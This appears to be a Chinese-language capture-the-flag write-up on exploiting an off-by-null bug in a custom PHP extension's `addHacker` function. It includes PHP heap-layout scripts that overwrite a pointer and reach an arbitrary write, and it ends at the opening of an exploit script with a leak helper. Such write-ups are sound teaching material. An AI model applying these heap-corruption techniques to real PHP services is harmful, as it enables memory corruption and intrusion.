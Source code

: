 漏洞点是`addHakcer`​的时候存在一个off by null的漏洞：

![image](http://127.0.0.1:49715/assets/image-20250404165024-3sweb6p.png)​

按照如下布局：

```php
<?php

addHacker("aaaaaaaa", "bbbbbbb");
addHacker("cccccccc", "ddddddd");
removeHacker(1);
addHacker("gggggggg", "hhhhhhh");
removeHacker(0);
addHacker("eeeeeeee", "ffffffff");

displayHacker(0);

?>

```

即可覆盖`chunkList[1].ptr->str1_ptr`​：

![image](http://127.0.0.1:49715/assets/image-20250404165217-nr557ub.png)​

结合`editHacker`​的修改能力：

```php
<?php

addHacker("aaaaaaaa", "bbbbbbb");
addHacker("cccccccc", "ddddddd");
removeHacker(1);
addHacker("gggggggg", "hhhhhhh");
removeHacker(0);
addHacker("eeeeeeee", "ffffffff");

editHacker(1, "hacked!!");
displayHacker(0);

?>
```

能在堆上进行一定的篡改：

![image](http://127.0.0.1:49715/assets/image-20250404165741-tz02367.png)​

通过适当构造可以得到任意地址写：

![image](http://127.0.0.1:49715/assets/image-20250411172907-0bq68ih.png)​

exp：

```php
<?php

$vuln_base = 0;
$libc_base = 0;
$libc = "";
$mbase = "";

function u64($leak){
    $leak = strrev($leak);
    $leak = bin2hex($leak);
    $leak = hexdec($leak);
    return $leak;
}
```
